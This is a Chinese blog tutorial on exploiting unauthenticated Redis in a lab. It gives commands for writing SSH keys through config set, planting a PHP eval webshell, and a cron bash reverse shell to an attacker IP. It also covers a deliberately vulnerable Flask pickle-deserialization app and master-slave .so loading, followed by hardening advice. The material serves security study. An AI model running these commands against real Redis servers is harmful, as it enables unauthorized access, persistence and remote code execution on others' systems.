

Redis未授权漏洞成因
- redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网
- 没有设置密码认证（一般为空），可以免密码远程登录redis服务。
搭建漏洞环境
centos7 : 靶机
kali ：攻击机
使用yum命令安装redis
查看安装的redis: find / -name "redis*"
修改redis.conf文件构建漏洞环境
#bind 127.0.0.1 //注释这条
protected-mode no //非保护模式
daemonize yes //进程守护，后台运行开启服务 redis-server /etc/redis.conf
redis常用命令：
set testkey "Hello World" # 设置键testkey的值为字符串Hello World
get testkey # 获取键testkey的内容
SET score 99 # 设置键score的值为99
INCR score # 使用INCR命令将score的值增加1
GET score # 获取键score的内容
keys * # 列出当前数据库中所有的键
get anotherkey # 获取一个不存在的键的值
config set dir /home/test # 设置工作目录
config set dbfilename redis.rdb # 设置备份文件名
config get dir # 检查工作目录是否设置成功
config get dbfilename # 检查备份文件名是否设置成功
save # 进行一次备份操作
flushall 删除所有数据
del key 删除键为key的数据利用方式
远程连接
在攻击机中 redis-cli -h ip进行连接

如果存在密码验证，因为这个是一个轻量级的认证，可以使用hydra或者mfs爆破
不需校验直接就可以连接redis,存在Redis未授权访问漏洞。
redis写入ssh公钥
原理：利用了redis数据库的备份功能，当redis以root身份运行，利用Redis的config set命令，只要内容为SSH公钥内容，文件路径满足公钥存放的位置，就可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器
在靶机中创建
/root/.ssh目录(一般机器上面存在这个目录)在攻击机上面生成密钥对
ssh-keygen -t rsa在本机的/root/.ssh/目录下生成了id_rsa / id_rsa.pub文件将
id_rsa.pub里面存放的公钥转存入1.txt中
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt
# -e的解释
man echo | grep "\-e"
# 可以知道他支持转义- 将公钥写入
远程redis中
cat 1.txt | redis-cli -h 192.168.153.138 -x set payload
# -x 支持stdin标准输入远程登陆redis
这里也可以证明我们上一步的步骤有效，写入了键为payload， 值为公钥的键值对
- 通过
config set dir和config set dbfilename分别设置工作目录和存放文件
# 设置工作目录为 /root/.ssh
config set dir /root/.ssh
# 创建文件 authorized_keys
config set dbfilename "authorized_keys"
# 保存信息入文件
save成功写入了文件
- 最后就可以ssh连接靶机了
ssh -i id_rsa root@ip成功连接
写入webshell
在靶机中搭建一个简单的web服务
选用php语言
php -S ip:port
很明显，web服务搭建好了
- 设置
redis工作目录在web root下，并写入shell
192.168.153.138:6379> config set dir /tmp
OK
192.168.153.138:6379> set payload "\n\n<?php @eval($_POST['redis']);?>\n\n"
OK
192.168.153.138:6379> config set dbfilename shell.php
OK
192.168.153.138:6379> save
OK成功拿到shell
使用定时任务反弹shell
linux定时任务介绍
/var/spool/cron/ 目录下存放的是每个用户包括root的crontab任务，每个任务以创建者的名字命名
/etc/crontab 这个文件负责调度各种管理和维护任务。
/etc/cron.d/ 这个目录用来存放任何要执行的crontab文件或脚本。
我们还可以把脚本放在/etc/cron.hourly、/etc/cron.daily、/etc/cron.weekly、/etc/cron.monthly目录中，让它每小时/天/星期、月执行一次。注意： 在不同系统中，root的位置是不一样的 在kali和ubantu中，其文件位置为/var/spool/cron/crontabs/root，在centos系列中位置为/var/spool/cron/root，通常情况下没有root文件，需要自己创建。
远程连接redis操作
192.168.153.138:6379> config set dir /var/spool/cron
OK
192.168.153.138:6379> config set dbfilename root
OK
192.168.153.138:6379> set xxx "\n\n* * * * * bash -i >& /dev/tcp/192.168.153.135/8000 0>&1\n\n"
OK
192.168.153.138:6379> save
OK成功写入
查看日志，定时任务也成功启用
shell反弹也成功
使用MSF完成操作
msfconsole
search redisauxiliary/scanner/redis/file_upload(文件上传模块)
auxiliary/scanner/redis/redis_login (爆破密码模块)
auxiliary/scanner/redis/redis_server(验证密码模块)
exploit/linux/redis/redis_unauth_exec(获取shell模块)修复
1、禁止外部访问Redis服务端口
redis.conf文件中的bind 127.0.0.1可以限制可以访问redis服务的ip地址
2、禁止使用root权限启动redis服务
3、配置安全组，限制可连接Redis服务器的IP
4、设置redis的密码
在redis.conf文件中的requirepass yourpasswd设置访问redis服务的密码，只有经过auth yourpasswd认证之后才可以执行命令
5、禁止远程使用危险命令如flushall、config、eval，或修改命令的名称
实例
使用 python反序列化 + redis未授权 getshell
code_vuln.py
import redis
from flask import Flask,request,session
import pickle
import random
app = Flask(__name__) #需要安装flask,pip install flask
class Redis: #定义Redis类，类中有三个方法，connect()方法负责连接redis数据库。注意IP和端口
@staticmethod
def connect():
r = redis.StrictRedis(host='localhost', port=6379, db=0)
return r
@staticmethod
def set_data(r,key,data,ex=None): #连接redis数据库后存值，（key=data）
r.set(key,pickle.dumps(data),ex) #在存储数据时先对数据进行序列化
@staticmethod
def get_data(r,key):#取值，根据key来取值，并对取出的数据进行反序列化
data = r.get(key)
if data is None:
return None
return pickle.loads(data)
def getrand():#获取随机字符串
str='abcdefghijklnmopqrstuvwxyz1234567890'
count = ''
for i in range(10):
index = random.randint(0,35)
count += str[index]
return count
@app.route('/',methods=['GET']) #用户请求为：http://127.0.0.1:5000?str=test,服务端获取str值并存入到redis,key是随机字符串，data是test
def hello_world():
str = request.args.get('str')
r = Redis.connect()
rand = getrand()
Redis.set_data(r,rand,str)
return rand+':'+str
@app.route('/getcookie')#当用户访问http://127.0.0.1:5000/getcookie时需要提前在浏览器中设置cookie：session=key。注意key是存数据之前随机生成的，读取数据。对序列化的数据进行反序列化
def get_cookie():
cookie = request.cookies.get('session')
r = Redis.connect()
data = Redis.get_data(r,cookie)
return 'your data:',data
#return cookie
if __name__ == '__main__':
app.run()访问 /路由，传入str参数
同样在redis数据库中写入了这个str，所以这里存在有未授权的访问
在 /getcookie路由中将cookie值作为key值取出数据，并进行反序列化之后输出
我们就可以通过写入危险的数据，比如说经过序列化之后会反弹shell的数据
构造payload:
成功写入了redis中
在控制台document.cookie='session=xxxx'写入session ，进行反序列化触发payload
成功反弹shell
Redis主从复制（4.x, 5.x）
基础
作用
主从复制的作用
- 数据副本(备份)
- 扩展读性能(读写分离)
原理
如图所示左边是Master节点，右边是slave节点，即主节点和从节点。从节点也是可以对外提供服务的，主节点是有数据的，从节点可以通过复制操作将主节点的数据同步过来，并且随着主节点数据不断写入，从节点数据也会做同步的更新。
整体起到的就是数据备份的效果。
除了一主一从模型之外，redis还提供了一主多从的模型，也就是一个master可以有多个slave，也就相当于有了多份的数据副本。
这样可以做一个更加高可用的选择，例如一个master和一个slave挂掉了，还能有其他的slave数据备份。
除了作为数据备份，主从模型还能做另外一个功能，就是读写分离。
让master节点负责提供写服务，而将数据读取的压力进行分流和负载，分摊给所有的从节点。
- 一个master可以有多个slave
- 一个slave只能有一个master
- 数据流向是单向的，master到slave
命令
使得 redis-6380成为redis-6379的从节点
redis-6380> slaveof ip 6379取消主从复制
redis-6380> slaveof no one环境搭建
# 下载redis
wget http://download.redis.io/releases/redis-4.0.11.tar.gz
# 解压
tar -zxvf redis-xxx.tar.gz
# 复制成三个
mv redis-xxx redis-xxx.master
cp -r redis-xxx.master redis-xxx.slave1
cp -r redis-xxx.master redis-xxx.slave2
# 备份配置文件
cp redis.conf redis.conf.bak
# 配置文件
logfile
port
slaveof ip port
daemonize yes # 后台运行
# 运行
./src/redis-server redis.conf
# 查看身份
info replication
master
slave
slave利用方式
(1) 支持传输备份文件
(2)支持加载so链接库，拓展命令
- 第一步，我们伪装成redis数据库，然后受害者将我们的数据库设置为主节点。
- 第二步，我们设置备份文件名为so文件
- 第三步，设置传输方式为全量传输
- 第四步加载恶意so文件，实现任意命令执行
示例：Redis攻击方法总结 - 知乎 (zhihu.com)
修复
禁止监听在公网地址：将redis.conf中的bind 0.0.0.0 改为bind 内网地址
修改默认的监听端口：修改port: 6379 为其他端口
开启Redis安全认证并设置复杂的密码
禁止使用Root权限启动
设置Redis配置文件的访问权限
chmod 600 /<filepath>/redis.conf参考
Redis未授权访问漏洞利用总结 - 云+社区 - 腾讯云 (tencent.com)
https://mp.weixin.qq.com/s/WNPhS6au4N6PIUbm8rHkkw


- Post link: https://roboterh.github.io/2022/06/09/Redis%E6%BC%8F%E6%B4%9E%E5%BD%92%E7%BA%B3/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.